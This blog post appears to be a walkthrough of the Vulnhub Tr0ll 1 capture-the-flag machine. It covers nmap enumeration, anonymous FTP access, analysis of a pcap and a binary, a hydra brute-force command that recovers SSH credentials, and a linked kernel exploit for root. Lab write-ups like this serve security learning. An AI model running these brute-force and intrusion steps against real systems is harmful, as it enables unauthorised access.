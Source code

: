 ```yaml
---
layout: post
title: "Vulnhub Tr0ll 1"
source: "https://anotsodev.me/vulnhub-tr0ll-1/"
author:
  - "anotsodev"
date: 2017-08-25
excerpt: "Started with the Nmap Scan # Nmap 7.40 scan initiated Thu Aug 3 20:58:47 2017 as: nmap -sC -sV -oA nmap 192.168.8.102 Nmap scan report for 192.168.8.102 Host is up (0.0035s latency). Not shown: 997…"
---
```

Started with the Nmap Scan

```
# Nmap 7.40 scan initiated Thu Aug  3 20:58:47 2017 as: nmap -sC -sV -oA nmap 192.168.8.102
Nmap scan report for 192.168.8.102
Host is up (0.0035s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|_  256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug  3 20:59:07 2017 -- 1 IP address (1 host up) scanned in 19.95 seconds
```
- port 21
- port 22
- port 80

![screenshot-from-2017-08-07-14-59-21-e1503681730435.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot-from-2017-08-07-14-59-21-e1503681890612.png?resize=734%2C585&ssl=1)

![screenshot20from202017-08-072015-02-06.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-02-06-e1503681876965.png?resize=656%2C296&ssl=1)

There is a directory in the web server named secret. So I opened the /secret directory and it showed me this.

![screenshot20from202017-08-072015-03-20.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-03-20-e1503682119899.png?resize=745%2C650&ssl=1)

And yes, it made me mad after seeing this.

Continuing my enumeration, I saw that the FTP server allows anonymous login, so I fired up my Filezilla and browse the FTP server. There is a file there named lol.pcap. Pcap is a file that contains the captured network traffics from network analyzers such as Wireshark and some other tools. So to open the pcap file, I launched Wireshark and read the pcap file. It showed me this.

![screenshot20from202017-08-032021-37-00-e1503682196980.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-032021-37-00-e1503710304210.png?resize=1170%2C610&ssl=1)

I noticed the “sup3rs3cr3tdirlol” and tried to open it and voila.

![screenshot20from202017-08-072015-13-36.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-13-36-e1503682263987.png?resize=548%2C388&ssl=1)

I downloaded the file named roflmao then run the file command to determine the filetype of the downloaded file. It shows that it is an ELF 32-bit LSB executable.

```
kaipowered@debian:~/Documents/Vulnhub/tr0ll$ file roflmao 
roflmao: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=5e14420eaa59e599c2f508490483d959f3d2cf4f, not stripped
```

So the next thing I did was to run the gdb then run the executable file.

```
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from roflmao...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/kaipowered/Documents/Vulnhub/tr0ll/roflmao 
Find address 0x0856BF to proceed[Inferior 1 (process 10058) exited with code 040]
(gdb)
```

The output showed me this

```
Find address 0x0856BF to proceed[Inferior 1 (process 10058) exited with code 040]
```

I tried to find the said address but I wasn’t able to find it in the memory, so I tried opening it on the web browser and it appears that it is a directory on the web server (luck I guess).

![screenshot20from202017-08-072015-24-34](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-24-34-e1503682433212.png?resize=659%2C390&ssl=1)

```
hydra -L which_one_lol.txt -P Pass.txt 192.168.8.102
```

At first, the usernames and passwords combination did not work, so it was so frustrating.

```
hydra -L which_one_lol.txt -p Pass.txt 192.168.8.102
```

But it appears that the real password is the “Pass.txt”, so I just changed the option from -P to -p, meaning, with the given password, try the usernames from which\_one\_lol.txt to match the correct combinations with hydra.

After bruteforcing, I was able to get the username and password of the machine.

```
username: overflow
password: Pass.txt
```

Commands Used

```
kaipowered@debian:~/Documents/Vulnhub/tr0ll$ ssh overflow@192.168.8.102
overflow@192.168.8.102's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Aug  6 23:35:25 2017 from 192.168.8.2
Could not chdir to home directory /home/overflow: No such file or directory
$
```

https://www.exploit-db.com/exploits/37292/

And after successfully exploited the tr0ll vm, I was able to get and read the Proof.txt that can be found in /root directory.

— FIN —

Solving this challenge was quite frustrating at first because, you know, the tr0ll is trolling you, but most of the time, when I found something interesting and it just appeared that I have been tr0lled, I just found myself grinning while clenching my fists, but of course I enjoyed solving this challenge.